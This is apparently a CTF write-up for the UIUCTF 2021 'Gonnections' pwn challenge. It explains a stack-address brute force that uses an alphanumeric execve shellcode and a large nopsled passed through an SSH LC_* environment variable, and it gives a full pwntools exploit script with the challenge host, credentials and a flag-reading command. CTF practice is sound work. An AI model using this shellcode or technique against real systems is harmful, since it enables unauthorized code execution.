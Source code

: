 Gonnections was a pwn challenge from UIUCTF 2021,

written by kmh. it was a tricky one..

the binary and a dockerfile was provided.

let's do a quick check on the binary:

![](https://raw.githubusercontent.com/nobodyisnobody/write-ups/main/UIUCTF.2021/pwn/gonnegtions/imgs/ek4orX0.png)

as we can see this a 32bit binary, with stack executable, and PIE on.

the binary working is very simple and quick to reverse.

let's examine it on IDA:

![](https://raw.githubusercontent.com/nobodyisnobody/write-ups/main/UIUCTF.2021/pwn/gonnegtions/imgs/HUYXQfE.png)

basically, the challenge ask for a 32bit address, and jump to it.

that's all...

PIE in 32bit mode has only 12bit of ASLR in address, so it is possible to bruteforce the addresses in a reasonnable amount of time,

depending on connection speed, and server responsiveness..could take minute or some hours..  still doable...

the settings of the challenge, was a bit weird, you can connect to the binary, via SSH, via a tcp port, or via a UDP port..

the libc was 2.31, and the docker was based on ubuntu 20.04..

my first tries were to bruteforce one gadgets address, but the registers at the time of the jump (call eax),

were not good for executing onegadgets..

so I try different tricks, ret2main, etc... nothing works...

then I stop, and think a bit :)

if stack is RWX, that indicates that probably a shellcode has to be executed on stack.. and the 32bit setting indicates a bit of bruteforce probably..

but how to put a shellcode on stack, with such a minimal binary...

well the answer was environnement variables, and to use the SSH connection to the binary.

a quick check in the sshd_config in the docker, confirm that you can pass LC_* & LANG env variable

to the remote program.  And of course , env variables will be stored on stack, and can be pretty big..

so the attack strategy was to put an alphanumeric shellcode with a big nopsled in a env variable,

and to bruteforce the stack address to jump in it...

with a 130000 bytes nopsled, only around 7 bits of ASLR are left to guess (1/128) which is easier...

the jump to the function is a CALL EAX instruction, so EAX will contain the address where we jump.

my alphanumeric shellcode is a self modifying code, that needs EAX to contains beginning address of shellcode.

so we will use INC EAX (@ in ascii) in our nopsled, like this, anywhere we jump in the nopsled,

when the shellcode will be reached, EAX will be adjusted to the beginning of our shellcode..perfect !!

so here is the exploit code:

```python
from pwn import *
context.log_level = 'error'
import os

# execve 32bit alphanumeric shellcode (need eax points to shellcode)
shellcode = 'j014d34d1p21pBZV34dN1pAX40PZRhUUshXf5zzPhUbinX4zPTkj0X40PSTYjOX4D2O'
# environement variable to put shellcode on stack, 130000 bytes nopsled beforce (inc eax)
os.environ['LC_PIPO'] = '@'*130000 + shellcode

tries = 0
while tries<100:
  print(str(tries))
  if args.LOCAL:
    p = process('sshpass -p gonnegtions ssh -T -o SendEnv=LC_PIPO -p 1339 wolfsheim@127.0.0.1', shell=True)
  else:
    p = process('sshpass -p gonnegtions ssh -T -o SendEnv=LC_PIPO -p 1339 wolfsheim@44.197.95.129', shell=True)
  p.sendlineafter('to? ', str(0xffd38000))
  try:
    p.recv(1,timeout=1)
    p.sendline('id;cat /flag.txt;')
    p.interactive()
  except:
    p.close()
    tries += 1
```


ok see it in action :)

![](https://raw.githubusercontent.com/nobodyisnobody/write-ups/main/UIUCTF.2021/pwn/gonnegtions/imgs/6D4CbDG.gif)


*nobodyisnobody for RootMeUpBeforeYouGoGo*